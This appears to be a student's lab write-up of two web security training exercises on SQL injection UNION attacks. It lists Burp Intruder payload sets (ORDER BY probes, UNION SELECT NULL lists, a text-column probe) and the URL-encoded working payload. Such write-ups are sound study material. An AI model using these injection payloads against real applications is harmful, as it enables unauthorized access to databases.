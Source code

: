```yaml
---
sticker: emoji//1f9ea
---
```

# Lab: SQL injection UNION attack, determining the number of columns returned by the query

![](../images/Pasted%20image%2020241030154632.png)

To begin with this lab let's take a look at the page:

![](../images/Pasted%20image%2020241030154840.png)

We have a `refine your search` section, let's send the request to burp to analyze it:

![](../images/Pasted%20image%2020241030155112.png)

We have a `filter?category=` section, I believe this is our injectable section, let's begin with the SQLI:


For this, I will use the notes from [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/INJECTIONS/SQLI/SQL INJECTION (SQLI).md|SQLI]], let's send our request to intruder and start the attack in the following way:


![](../images/Pasted%20image%2020241030155422.png)

![](../images/Pasted%20image%2020241030155739.png)

Let's launch the attack:

![](../images/Pasted%20image%2020241030155927.png)
Judging based on the status code and response, we can pretty much visualize `' ORDER BY 3--` was the successful payload, let's look at the response:

![](../images/Pasted%20image%2020241030160033.png)

![](../images/Pasted%20image%2020241030160134.png)


Now, knowing that 3 is the right one, let's use the UNION attack:

```ad-important
##### USED:


`sql`

'+UNION+select+NULL--
'+UNION+select+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--


```



Let's use intruder again the test our payloads:


![](../images/Pasted%20image%2020241030161904.png)

So, the payload that worked was this:

```sql
'+UNION+select+NULL,+NULL,+NULL--
```


Let's send the request and finish the lab:



![](../images/Pasted%20image%2020241030162009.png)

## EXPLANATION VIDEO

<iframe width="800" height="545" src="https://www.youtube.com/embed/umXGHbEyW5I" title="SQL Injection - Lab #3 SQLi UNION attack determining the number of columns returned by the query" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>



# Lab: SQL injection UNION attack, finding a column containing text


![](../images/Pasted%20image%2020241030162905.png)

## SENDING THE REQUEST

![](../images/Pasted%20image%2020241030171439.png)

So, taking advantage of the notes I took previously, this is what could work:

```ad-important

`' UNION SELECT 'a',NULL,NULL,NULL--`
`' UNION SELECT NULL,'a',NULL,NULL--`
`' UNION SELECT NULL,NULL,'a',NULL--`
`' UNION SELECT NULL,NULL,NULL,'a'--`
```


Let's try, first, let's send the request to intruder and launch the attack:


```ad-important

##### USED PAYLOAD:


' UNION select 'abcdef'--
' UNION select NULL,'abcdef',NULL--
' UNION select NULL,NULL,'abcdef',NULL--
' UNION select NULL,NULL,NULL,'abcdef'--
' UNION select NULL,NULL,NULL,NULL,'abcdef'--
' UNION select NULL,NULL,NULL,NULL,NULL,'abcdef'--




```


![](../images/Pasted%20image%2020241030173119.png)

If we launch the attack, we realize that:

`' UNION select NULL,'abcdef',NULL--` 

Was successful:


![](../images/Pasted%20image%2020241030173318.png)

So, we can finish the lab by sending the following request:


`' UNION select NULL,'0lrAqo',NULL--`


But since we need to send it encoded, this would be what we need to send:

`%27%20UNION%20select%20NULL%2C%270lrAqo%27%2CNULL--`


![](../images/Pasted%20image%2020241030173523.png)


## EXPLANATION VIDEO

<iframe width="800" height="600" src="https://www.youtube.com/embed/SGBTC5D7DTs" title="SQL Injection - Lab #4 SQL injection UNION attack, finding a column containing text" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>
